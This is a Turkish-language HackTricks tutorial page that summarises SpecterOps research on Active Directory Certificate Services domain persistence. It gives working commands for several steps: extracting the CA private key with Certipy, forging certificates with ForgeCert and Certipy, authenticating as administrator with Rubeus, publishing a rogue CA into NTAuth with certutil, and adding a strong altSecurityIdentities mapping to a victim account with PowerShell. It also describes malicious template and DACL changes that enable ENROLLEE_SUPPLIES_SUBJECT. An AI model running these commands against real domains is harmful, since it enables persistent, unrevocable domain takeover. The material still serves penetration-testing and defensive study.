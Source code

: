 # AD CS Domain Kalıcılığı

{{#include ../../../banners/hacktricks-training.md}}

**Bu, [https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) adresinde paylaşılan domain kalıcılığı tekniklerinin bir özetidir.** Daha fazla detay için kontrol edin.

## Çalıntı CA Sertifikalarıyla Sertifika Üretme - DPERSIST1

Bir sertifikanın CA sertifikası olduğunu nasıl anlarsınız?

Bir sertifikanın CA sertifikası olduğu, birkaç koşul sağlandığında belirlenebilir:

- Sertifika CA sunucusunda depolanır; özel anahtarı makinenin DPAPI'si tarafından veya işletim sistemi destekliyorsa TPM/HSM gibi donanım tarafından korunur.
- Sertifikanın Issuer ve Subject alanlarının her ikisi de CA'nın distinguished name'i ile eşleşir.
- Sadece CA sertifikalarında bulunan bir "CA Version" uzantısı mevcuttur.
- Sertifika Extended Key Usage (EKU) alanlarından yoksundur.

Bu sertifikanın özel anahtarını çıkarmak için CA sunucusundaki `certsrv.msc` aracı, yerleşik GUI aracılığıyla desteklenen yöntemdir. Yine de, bu sertifika sistemde depolanan diğerlerinden farklı değildir; bu nedenle çıkarma için [THEFT2 technique](certificate-theft.md#user-certificate-theft-via-dpapi-theft2) gibi yöntemler uygulanabilir.

Sertifika ve özel anahtar ayrıca Certipy kullanılarak şu komutla elde edilebilir:
```bash
certipy ca 'corp.local/administrator@ca.corp.local' -hashes :123123.. -backup
```
CA sertifikası ve özel anahtarını `.pfx` formatında elde ettikten sonra, [ForgeCert](https://github.com/GhostPack/ForgeCert) gibi araçlar geçerli sertifikalar oluşturmak için kullanılabilir:
```bash
# Generating a new certificate with ForgeCert
ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123! --Subject "CN=User" --SubjectAltName localadmin@theshire.local --NewCertPath localadmin.pfx --NewCertPassword Password123!

# Generating a new certificate with certipy
certipy forge -ca-pfx CORP-DC-CA.pfx -upn administrator@corp.local -subject 'CN=Administrator,CN=Users,DC=CORP,DC=LOCAL'

# Authenticating using the new certificate with Rubeus
Rubeus.exe asktgt /user:localdomain /certificate:C:\ForgeCert\localadmin.pfx /password:Password123!

# Authenticating using the new certificate with certipy
certipy auth -pfx administrator_forged.pfx -dc-ip 172.16.126.128
```
> [!WARNING]
> Sertifika sahtekarlığına hedeflenen kullanıcı, işlemin başarılı olması için Active Directory'de aktif olmalı ve kimlik doğrulaması yapabilecek durumda olmalıdır. krbtgt gibi özel hesaplar için sertifika düzenlemek etkisizdir.

Bu sahte sertifika, belirtilen bitiş tarihine kadar ve root CA sertifikası geçerli olduğu sürece (genellikle 5 ila **10+ yıl**) **geçerli** olacaktır. Ayrıca **makineler** için de geçerlidir, bu yüzden **S4U2Self** ile birleştirildiğinde bir saldırgan CA sertifikası geçerli olduğu sürece herhangi bir domain makinesinde **persistence** sürdürebilir.\ Ayrıca, bu yöntemle oluşturulan **sertifikalar** CA tarafından haberdar edilmediği için **iptal edilemez**.

### Strong Certificate Mapping Enforcement (2025+) altında çalışma

11 Şubat 2025'ten itibaren (KB5014754 dağıtımından sonra), domain controllers varsayılan olarak sertifika eşlemeleri için **Full Enforcement** modunu kullanır. Pratikte bu, sahte sertifikalarınızın ya şunlardan biri olması gerektiği anlamına gelir:

- Hedef hesaba güçlü bir bağlama içermeli (örneğin, SID security extension), veya
- Hedef nesnenin `altSecurityIdentities` attribute'unda güçlü, açık bir eşleme ile eşleştirilmiş olmalı.

Persistence için güvenilir bir yaklaşım, çalınmış Enterprise CA'ya zincirlenmiş sahte bir sertifika düzenlemek ve ardından mağdur principal'a güçlü, açık bir eşleme eklemektir:
```powershell
# Example: map a forged cert to a target account using Issuer+Serial (strong mapping)
$Issuer  = 'DC=corp,DC=local,CN=CORP-DC-CA'           # reverse DN format expected by AD
$SerialR = '1200000000AC11000000002B'                  # serial in reversed byte order
$Map     = "X509:<I>$Issuer<SR>$SerialR"             # strong mapping format
Set-ADUser -Identity 'victim' -Add @{altSecurityIdentities=$Map}
```
Notlar
- Eğer SID güvenlik uzantısını içeren sahte sertifikalar oluşturabiliyorsanız, bunlar Full Enforcement altında bile örtük olarak eşlenecektir. Aksi takdirde, açık güçlü eşlemeleri tercih edin. Açık eşlemeler hakkında daha fazla bilgi için [account-persistence](account-persistence.md) bakın.
- İptal işlemi savunmacılara burada yardımcı olmaz: sahte sertifikalar CA veritabanında bilinmediğinden iptal edilemez.

## Sahte CA Sertifikalarına Güvenme - DPERSIST2

`NTAuthCertificates` nesnesi, Active Directory (AD) tarafından kullanılan `cacertificate` özniteliği içinde bir veya daha fazla **CA certificates** içerecek şekilde tanımlanmıştır. Doğrulama süreci **domain controller** tarafından, kimlik doğrulayan **certificate**'ın Issuer alanında belirtilen **CA specified** ile eşleşen bir giriş olup olmadığını `NTAuthCertificates` nesnesinde kontrol etmeyi içerir. Eşleşme bulunursa kimlik doğrulama devam eder.

Bir saldırgan, bu AD nesnesi üzerinde kontrole sahipse `NTAuthCertificates` nesnesine self-signed bir CA sertifikası ekleyebilir. Normalde, yalnızca **Enterprise Admin** grubunun üyeleri ile **Domain Admins** veya **Administrators**'ın **forest root’s domain** içindeki üyeleri bu nesneyi değiştirme iznine sahiptir. `NTAuthCertificates` nesnesini `certutil.exe` ile `certutil.exe -dspublish -f C:\Temp\CERT.crt NTAuthCA` komutunu kullanarak ya da [**PKI Health Tool**](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/import-third-party-ca-to-enterprise-ntauth-store#method-1---import-a-certificate-by-using-the-pki-health-tool) aracını kullanarak düzenleyebilirler.

Bu teknik için faydalı ek komutlar:
```bash
# Add/remove and inspect the Enterprise NTAuth store
certutil -enterprise -f -AddStore NTAuth C:\Temp\CERT.crt
certutil -enterprise -viewstore NTAuth
certutil -enterprise -delstore NTAuth <Thumbprint>

# (Optional) publish into AD CA containers to improve chain building across the forest
certutil -dspublish -f C:\Temp\CERT.crt RootCA          # CN=Certification Authorities
certutil -dspublish -f C:\Temp\CERT.crt CA               # CN=AIA
```
Bu yetenek, ForgeCert kullanılarak dinamik olarak sertifika oluşturmayı içeren daha önce açıklanmış bir yöntemle birlikte kullanıldığında özellikle önemlidir.

> Post-2025 eşleme hususları: bir rogue CA'yı NTAuth içine yerleştirmek yalnızca yayımlayan CA'ya güven oluşturur. DC'ler **Full Enforcement** durumundayken leaf sertifikaları ile oturum açmak için leaf ya SID güvenlik uzantısını içermeli ya da hedef nesnede güçlü, açık bir eşleme bulunmalıdır (örneğin Issuer+Serial `altSecurityIdentities`). Bkz. {{#ref}}account-persistence.md{{#endref}}.

## Kötü Amaçlı Yanlış Yapılandırma - DPERSIST3

AD CS bileşenlerinin güvenlik tanımlayıcısı (security descriptor) değişiklikleri yoluyla **persistence** fırsatları bol miktarda mevcuttur. "[Domain Escalation](domain-escalation.md)" bölümünde açıklanan değişiklikler, domaine yükseltilmiş erişimi olan bir saldırgan tarafından kötü amaçla uygulanabilir. Bu, aşağıdaki gibi hassas bileşenlere "control rights" (ör. WriteOwner/WriteDACL/etc.) eklemeyi içerir:

- **CA server’s AD computer** nesnesi
- **CA server’s RPC/DCOM server**
- **CN=Public Key Services,CN=Services,CN=Configuration,DC=<DOMAIN>,DC=<COM>** içinde herhangi bir **alt AD nesnesi veya container** (ör. Certificate Templates container, Certification Authorities container, NTAuthCertificates object vb.)
- Varsayılan veya organizasyon tarafından AD CS'yi kontrol etme hakları delege edilen **AD grupları** (ör. built-in Cert Publishers grubu ve üyeleri)

Kötü amaçlı bir uygulama örneğinde, domain içinde **yükseltilmiş izinleri** olan bir saldırgan, varsayılan **`User`** sertifika şablonuna **`WriteOwner`** iznini ekleyebilir ve bu hakkın sahibi olarak kendisini atayabilir. Bunu istismar etmek için saldırgan önce **`User`** şablonunun sahipliğini kendine geçirir. Ardından şablonda **`mspki-certificate-name-flag`** 1 olarak ayarlanır ve böylece **`ENROLLEE_SUPPLIES_SUBJECT`** etkinleştirilir; bu, istekte Subject Alternative Name sağlanmasına izin verir. Takiben saldırgan, şablonu kullanarak **enroll** olur, alternatif ad olarak bir **domain administrator** ismi seçer ve elde ettiği sertifikayı DA olarak kimlik doğrulama için kullanır.

Saldırganların uzun vadeli domain persistence için ayarlayabileceği pratik kontroller (tam detaylar ve tespit için bkz. {{#ref}}domain-escalation.md{{#endref}}):

- İstek sahiplerinden SAN kabul eden CA politika bayrakları (ör. `EDITF_ATTRIBUTESUBJECTALTNAME2` etkinleştirilmesi). Bu, ESC1-like yolların istismar edilebilir kalmasını sağlar.
- Kimlik doğrulamaya uygun düzenlemeye izin veren şablon DACL veya ayarları (ör. Client Authentication EKU eklemek, `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` etkinleştirmek).
- Savunucular temizlemeye çalışsa bile rogue yayımlayıcıları sürekli yeniden tanıtmak için `NTAuthCertificates` nesnesi veya CA container'larını kontrol etme.

> [!TIP]
> KB5014754 sonrası sertleştirilmiş ortamlarda, bu yanlış yapılandırmaları açık, güçlü eşlemeler (`altSecurityIdentities`) ile eşleştirmek, DC'ler güçlü eşlemeyi uygulasalar bile verdiğiniz veya sahtelediğiniz sertifikaların kullanılabilir kalmasını sağlar.

## Kaynaklar

- Microsoft KB5014754 – Certificate-based authentication changes on Windows domain controllers (enforcement timeline and strong mappings). https://support.microsoft.com/en-au/topic/kb5014754-certificate-based-authentication-changes-on-windows-domain-controllers-ad2c23b0-15d8-4340-a468-4d4f3b188f16
- Certipy – Command Reference and forge/auth usage. https://github.com/ly4k/Certipy/wiki/08-%E2%80%90-Command-Reference
{{#include ../../../banners/hacktricks-training.md}}
